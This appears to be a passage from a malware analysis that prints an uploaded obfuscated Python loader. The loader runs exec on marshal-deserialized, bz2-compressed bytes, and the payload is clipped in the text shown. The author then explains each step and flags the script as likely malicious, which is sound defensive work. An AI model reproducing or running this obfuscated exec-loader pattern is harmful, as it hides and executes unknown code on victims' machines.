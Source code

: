 ![](assets/post_http.png)

The data that was uploaded is shown below.

```json
{"script":"\ntry:\n\timport marshal,lzma,gzip,bz2,binascii,zlib;exec(marshal.loads(bz2.decompress(b'BZh91AY&SY\\x8d*w\\x00\\x00\\n\\xbb\\x7f\\xff\\xff\\xff\\xff\\xff\\xff\\xff\\xff\\xff\\xff\\xff\\xff\\xff\\xff\\xff\\xff\\xff\\xff\\xfe\\xee\\xec\\xe4\\xec\\xec\\xc0?\\xd9\\xff\\xfe\\xf4\"|\\xf9`\\r\\xff\\x1a\\xb3\\x03\\xd1\\xa0\\x1e\\xa9\\x11\\x07\\xac\\x9e\\xef\\x1e\\xeez\\xf5\\xdb\\xd9J\\xde\\xce\\xa6K(\\xe7\\xd3\\xe9\\xcd\\xa9\\x93\\rS@M\\x134&\\r\\x11\\x94xF\\x11\\xa6\\x89\\xb2\\x99\\xa6\\x94\\xf0\\x1ai\\xa1\\xa6\\x9a\\x03AF\\xd1\\x1e\\x9e\\xa1\\x9a\\xa7\\x89\\xa6L\\x84\\xf5\\x1ayC\\xd44z\\x993S h\\r\\x0f)\\xe9\\x03@\\x03LG\\xa9\\xa0\\x1a\\x04DI\\xe8\\x19$\\xf4\\xc9\\xe92a\\xa3D\\xc9\\x9aL\\x11\\x81O\\'\\xa4\\x9e\\x935=M\\xa4\\xd0\\xd1\\xa6&F\\x81\\x93L\\x86\\x80\\x00\\x00\\x06\\x80\\x00\\x00\\x00
[...CLIP...]
\\xe0\\x00')))\nexcept KeyboardInterrupt:\n\texit()\n"}
```

This code appears to be an obfuscated Python script likely designed for malicious purposes.
* It imports several compression libraries (`lzma`, `gzip`, `bz2`, and `zlib`) along with the `marshal` module—a built-in serialization and deserialization library similar to `pickle`. 
* The script then decompresses the embedded data
* Deserializes the result
* Executes the final payload via `exec()`
